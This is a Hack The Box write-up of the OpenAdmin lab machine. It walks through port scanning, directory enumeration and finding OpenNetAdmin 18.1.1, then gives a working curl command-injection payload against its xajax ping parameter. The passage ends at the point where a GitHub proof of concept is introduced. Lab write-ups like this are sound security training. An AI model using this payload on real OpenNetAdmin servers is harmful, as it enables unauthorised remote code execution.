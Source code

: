 # OpenAdmin
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9908a103-8c8b-4771-bb74-0bf955c31f61)


## Lessons Learned:
- Using dirsearch to enumerate webpages.
- Exploiting OpenNetAdmin (ONA) v.18.1.1 --> Remote Code Execution, Command Injection.

## STEPS:
> PORT SCANNNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC openadmin.htb --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-05 20:41 PDT
Nmap scan report for openadmin.htb (10.10.10.171)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
|_  256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

1. Based from the nmap results, the machine runs web application at port 80 and opens ssh login at port 22.
2. Noticed based from the service's detail, once we open the webapp it shall rendered Ubuntu Default Page.

> WEB DEFAULT PAGE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/061c4f0e-2d71-4aa9-a168-99436176d7df)


3. Knowing this condition, seems the approach is to do directory listing.

> RESULT USING DIRSEARCH

```
dirsearch -u http://openadmin.htb:80
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a74ba915-39d9-418d-a4bf-26bde6d2a304)


4. Interesting! We found 2 accessible endpoint.

> Accessing /music/

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1f38ff98-6fa1-425e-8788-53856e547961)


5. Long story short, after reviewing every feature. Figured out that login feature shall redirect us to `/ona` endpoint.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4c9b4311-3f21-42bf-bc44-71ababe5b4a7)


> Accessing /ona/


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f16362b7-372d-40c6-ba05-34704060d1a7)


6. By checking for documentation, turns out ONA is an abbreviation of **OpenNetAdmin**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45440e69-a7b4-4781-9f26-697aaed46333)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/44663749-8bbf-49eb-b6fd-d9e97afc4f98)


7. Noticed, it disclosed the service's version --> `18.1.1`. Using `searchsploit` or internet to find vuln related to this version, found these results:

> Internet

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5ab29c1d-0c5f-4864-8f4d-4347e780176c)

> Searchsploit

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/11ea3f32-2360-42de-99f2-886496b844f1)


8. It's remote code execution, also there's github POC's which can be useful (it speed up our exploit to drop a shell).
9. Anyway, let's use the exploit from exploit.db first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/680d056a-3507-48d7-a5b0-fd42fe46fe17)


10. We just need to replace the CMD and URL.

```txt
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";id;echo \"END\"&xajaxargs[]=ping" http://openadmin.htb:80/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/722b8bc0-ee83-410a-8c12-ed38fe052568)


11. Awesome, we can do reverse shell from this state. Now let's use the github POC to speed up our process to drop a shell.

> Using the github POC




